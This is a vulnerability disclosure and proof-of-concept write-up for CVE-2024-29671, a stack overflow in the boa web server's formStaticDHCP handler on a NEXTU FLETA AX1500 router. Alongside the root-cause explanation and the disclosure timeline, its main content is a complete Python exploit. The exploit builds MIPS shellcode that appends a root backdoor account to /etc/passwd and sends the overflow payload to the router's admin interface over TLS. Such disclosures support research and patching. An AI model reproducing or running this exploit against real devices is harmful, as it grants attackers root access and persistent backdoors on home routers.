



# NEXTU FLETA Wifi6 Router RCE Exploit POC  
  
  
This document describes how the **CVE-2024-29671** vulnerability was exploited in the **NEXTU FLATA AX1500** Router firmware.
  
##  Execution Environment 

This router is based on the MIPS architecture using the Realtek chipset with Little-Endian. <br>
The target router firmware version is v1.0.2.

This firmware include  embedded web server name as "boa", which was last released in 2005. <br>
However, this router uses the boa web server to provide an admin web page service that controls the router's firmware. 


##  Cause of the vulnerability
The "boa" binary security status is as follows.


Fig 1. boa webserver binary checksec result


The cause of the stack overflow is that the length value check was not performed when copying the contents of the **hostname** parameter using **strcpy()** in the **0x00411c00** **formStaticDHCP** function. When request handler doing processes form requests in **boa** webserver.



Fig 2. Stack overflow occur location 
<br><br><br><br>


Fig 3. Stack memory view before stack overflow is occur.
(White line is RET address area)
<br><br><br><br>



Fig 4. Stack memory view after stack overflow is occur.
<br><br><br><br>

As you can see in stack 0x7ffe7dc address, witch stored handler RET address, is overflowed data by 0x42('B').

## Exploit explain 

If an attacker inserts a remote execution code and add the overwrites address in the RET area into the 'hostname' parameter value of the /boafrm/formStaticDHCP POST request, 
the Arbitrary code must be executed as root.

## Vulnerability POC
```python
from pwn import *  
from hackebds import *  
  
# id: rOOt  
# passwd: pwn3d  
  
def add_user_credential_shell_code():  
    context.update(arch='mips', os='linux', bits=32, endian='little')  
  
    cmd = "/bin/sh"  
    args = ["sh", "-c", "echo \"rOOt:XJ1GV.nyFFMoI:0:0:root:/:/bin/sh\" >> /etc/passwd"]  
  
    asmcode = shellcraft.mips.linux.execve(cmd, args) + shellcraft.mips.linux.exit()  
    shellcode = asm(asmcode)  
    return shellcode  
  
  
  
shellcode = add_user_credential_shell_code()  
  
print(shellcode)  
gap_code = (b'A') * 1282  

# insert RET Address by your own
# In this case, the address value is in the video below that execute RCE.
RET_address = (b'\xe0\x4e\xb9\x7f')  
stack_gap = (b'B') * 0x180  
  
final_code = gap_code + RET_address + stack_gap + shellcode  
  
import socket  
import ssl  
  
# Boa Webserver Connect Address
HOST = '192.168.1.254'  
PORT = 443  
  
context = ssl.create_default_context()  
context.set_ciphers('HIGH:!DH:!aNULL')  
context.check_hostname = False  
context.verify_mode = ssl.CERT_NONE  
  
with socket.create_connection((HOST, PORT)) as sock:  
    with context.wrap_socket(sock, server_hostname=HOST) as ssock:  
  
        # Make Request Body
        send_byte = b"ip_addr=AAA&mac_addr=AAA&static_dhcp=%00%00&addRsvIPFlag=%00%00&addRsvIP=%00%00&deleteSelRsvIP=%00%00&modifyRsvIP=AAA&hostname=" + final_code  
  
        # POST Request Header
        headers = b"POST /boafrm/formStaticDHCP HTTP/1.1\r\n" \  
                  b"Host: " + HOST.encode('utf-8') + b"\r\n" \  
                                                     b"Content-Type: application/octet-stream\r\n" \  
                                                     b"Content-Length: " + str(len(send_byte)).encode(  
            'utf-8') + b"\r\nConnection: close\r\n\r\n"  
  
        ssock.send(headers + send_byte)  
  
        response = b""  
        while True:  
            data = ssock.recv(1024)  
            if not data:  
                break  
            response += data  
  
        print(response.decode('utf-8'))
```
## Exploit execution video 
<br>

https://github.com/user-attachments/assets/41c7cd6f-3e9d-4bb8-ab04-973e8b074bed

<br>

## Impact

This Vulnerability must occur RCE and DOS problems.

## Timeline

2024-03-17: Request CVE Number <br>
2024-03-22: Assigned CVE Number - CVE-2024-29671 <br>
2024-03~ 2024-05: The report is delivered to the company <br>

## Discoverer
Ku In Hoe
